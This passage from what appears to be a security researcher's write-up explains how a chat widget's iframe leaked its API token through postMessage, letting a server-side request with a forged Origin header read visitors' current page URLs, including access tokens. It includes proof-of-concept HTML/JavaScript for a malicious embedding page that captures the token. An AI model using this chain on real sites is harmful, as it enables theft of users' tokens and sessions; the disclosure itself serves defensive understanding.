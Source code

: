 When the chat-iframe loaded:

1. If a chat-api-token existed in the chat-widget’s localStorage it would send the api-token to its parent using postMessage. If no chat-api-token existed it would not send anything.
2. When iframe has loaded it will send a postMessage with a `{"type": "chat-widget", "key": "init"}` to its parent.

If you clicked on the chat-icon in the main window:

1. If no chat-api-token had been sent already, the chat-widget would create one and put it in its own origin’s localStorage and postMessage it to the parent window.
2. The parent window would then make an API-call to the chat-service. The API-endpoint was CORS-restricted to the specific website configured for the service. You had to provide a valid `Origin`-header for the API-call with the chat-api-token to allow the request to be sent.
3.  The API-call from the main window would contain `location.href` and register it as the “current page” of the visitor with the chat-api-token. The response would then contain tokens to connect to a websocket to initiate the chat-session:

    ```json
    {
      "api_data": {
        "current_page": "https://example.com/#access_token=test",
        "socket_key": "xxxyyyzzz",
        ...
      }
    }
    ```

In this example, I realized the announcement of the chat-api-token would always be announced to the parent of the chat-widget iframe, and if I got the chat-api-token I could just make a server-side request using the token and then add my own artificial `Origin`-header to the API-call since a CORS-header only matters for a browser. This resulted in the following chain:

1.  Created a malicious page that’s embedding an iframe of the chat-widget, added a postMessage-listener to listen for the chat-api-token. Also, triggered an event to reload the iframe if I haven’t gotten the api-token in 2 seconds. This was to make sure that I also supported the victims that had never initiated the chat, and since I could trigger to open the chat remotely, I first needed the chat-api-token to start polling for the data in the chat-API from server-side.

    ```html
    <div id="leak"><iframe
    id="i" name="i"
    src="https://chat-widget.example.com/chat" onload="reloadToCheck()"></iframe></div>
    <script>
    var gotToken = false;
    function reloadToCheck() {
      if (gotToken) return;
      setTimeout(function() {
        document.getElementById('i').src = 'https://chat-widget.example.com/chat?' + Math.random();
      }, 2000);
    }
    window.onmessage = function(e) {
      if (e.data.key === 'api-token') {
        gotToken = true;
        lookInApi(e.data.value);    
      }
    }
    launchChatWindowByPostMessage();
    </script>
    ```
2.  Added a link to the malicious page to open up the sign-in-flow that would end up on the page with the chat-widget with the token in the URL:
